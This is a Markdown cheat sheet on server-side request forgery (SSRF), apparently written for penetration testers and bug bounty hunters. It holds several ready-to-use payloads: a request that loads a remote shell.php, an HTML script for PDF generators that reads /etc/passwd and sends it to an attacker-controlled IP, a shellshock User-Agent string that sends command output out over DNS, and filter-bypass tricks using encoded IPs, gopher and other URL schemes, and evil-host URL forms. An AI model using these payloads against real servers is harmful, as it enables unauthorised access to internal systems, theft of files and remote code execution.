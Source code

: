 # Content
- [What can SSRF vulnerabilities can lead to](#what-can-ssrf-vulnerabilities-can-lead-to)
- [Where to find SSRF](#where-to-find-ssrf-)
- [Testing if app vulnerable to SSRF](#testing-if-app-vulnerable-to-ssrf)
- [Blind SSRF](#blind-ssrf)
    - [blind SSRF via pdf generator](#blind-ssrf-via-pdf-generator)
    - [blind SSRF via User-Agent header](#blind-ssrf-via-user-agent-header-shellshock)
- [Bypass](#bypass)
 - [SSRF with blacklist-based input filters](#ssrf-with-blacklist-based-input-filters)
 - [SSRF with whitelist-based input filters](#ssrf-with-whitelist-based-input-filters)



## What can SSRF vulnerabilities can lead to:
- Interacting with known internal systems
- Discovering internal services via port scans
- Disclosing local/sensitive data
- Including files in the target application
- Leaking NetNTLM hashes using UNC Paths (Windows)
- Achieving remote code execution


## Where to find SSRF :
- Parts of HTTP requests, including (URLs,paramters,headrs,...)
     - Referer header
     - User-Agent header
```
Note: Always keep in mind that web application fuzzing should be part of any penetration testing or bug bounty hunting activity.
That being said, fuzzing should not be limited to user input fields only.
Extend fuzzing to parts of the HTTP request as well, such as the User-Agent.
```
- File imports such as HTML, PDFs, images, etc.
- Remote server connections to fetch data
- API specification imports
- Dashboards including ping and similar functionalities to check server statuses


## Testing if app vulnerable to SSRF
The most common test is local and remote file inclusion

- try diffrient protocols (http,file,ftp,..)
- fuzz ports
- do not forget to url encode if going through more than one app (ex:trible url encode)
- DNS loopkup for server you own
- Load External files (try RCE)
```
GET https://example.com/page?page=https://malicioussite.com/shell.php
```
- Access a Restricted Page
```
GET https://example.com/page?page=http://localhost/admin
```
- Attack other back-end systems
```
http://192.168.0.68/admin
```




## Blind SSRF
- We can detect blind SSRF vulnerabilities via out-of-band techniques
- Blind SSRF vulnerabilities could exist in PDF Document generators and HTTP Headers, among other locations.

### blind SSRF via pdf generator 
```
<html>
    <body>
        <b>Exfiltration via Blind SSRF</b>
        <script>
        var readfile = new XMLHttpRequest(); // Read the local file
        var exfil = new XMLHttpRequest(); // Send the file to our server
        readfile.open("GET","file:///etc/passwd", true); 
        readfile.send();
        readfile.onload = function() {
            if (readfile.readyState === 4) {
                var url = 'http://<SERVICE IP>:<PORT>/?data='+btoa(this.response);
                exfil.open("GET", url, true);
                exfil.send();
            }
        }
        readfile.onerror = function(){document.write('<a>Oops!</a>');}
        </script>
     </body>
</html>


```
### blind SSRF via User-Agent header (shellshock)
```
() { :; }; /usr/bin/nslookup $(whoami).BURP-COLLABORATOR-SUBDOMAIN
```

## Bypass

### SSRF with blacklist-based input filters

- Using an alternative IP representation for 127.0.0.1
```
127.1.
017700000001 (octal)
0x7f000001 (hexadecimal)
2130706433 (integer)
::ffff:7f00:1  , 0:0:0:0:0:ffff:7f00:0001 , 0000:0000:0000:0000:0000:ffff:7f00:0001(IPv6)

```
- Registering your own domain name that resolves to 127.0.0.1 OR any internal ip.
- Obfuscating blocked strings using URL encoding or case variation.
- Try using different redirect codes, as well as different protocols for the target URL.
```
file:// (file read)
netdoc:// (file read)
dict://
gopher://
jar://
ldap://
ftp://
data:text/plain;base64,L2V0Yy9wYXNzd2Q=  (if the backend use the input to construct another url we can use data:// to include /etc/passwd directly)

You might be able to get file read.

Or send multi-line requests to gain additional impact

(Ex: gopher + redis = likely RCE)
```
- Nip.io allows simple wildcard DNS for any IP address (127.0.0.1.nip.io = 127.0.0.1 )
```
127.0.0.1.nip.io  
0x7f000001.nip.io (hexadecimal IP notation)
Something.google.com.127.0.0.1.nip.io
```


### SSRF with whitelist-based input filters

- You can embed credentials in a URL before the hostname, using the @ character. For example:
```bash
https://expected-host:fakepassword@evil-host
```
- You can use the # character to indicate a URL fragment. For example:
```bash
https://evil-host#expected-host
```
- You can leverage the DNS naming hierarchy to place required input into a fully-qualified DNS name that you control. For example:
```bash
https://expected-host.evil-host
```
- You can URL-encode characters to confuse the URL-parsing code This is particularly useful if the code that implements the filter handles URL-encoded characters differently than the code that performs the back-end HTTP request.
```text
Note
that you can also try double-encoding characters
some servers recursively URL-decode the input they receive, which can lead to further discrepancies.
```
- You can use combinations of these techniques together.


